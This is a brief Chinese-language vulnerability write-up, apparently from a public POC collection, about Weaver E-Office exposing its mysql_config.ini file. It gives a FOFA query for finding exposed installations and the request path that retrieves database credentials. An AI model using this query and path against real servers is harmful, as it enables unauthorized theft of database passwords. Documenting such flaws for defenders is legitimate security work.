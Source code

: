 # 泛微OA E-Office mysql_config.ini 数据库信息泄漏漏洞

## 漏洞描述

泛微 E-Office mysql_config.ini文件可直接访问，泄漏数据库账号密码等信息

## 漏洞影响

```
泛微 E-Office
```

## FOFA

```
app="泛微-EOffice"
```

## 漏洞复现

产品页面

![img](./images/202202091048925.png)

验证POC

```php
/mysql_config.ini
```

![img](./images/202202091048869.png)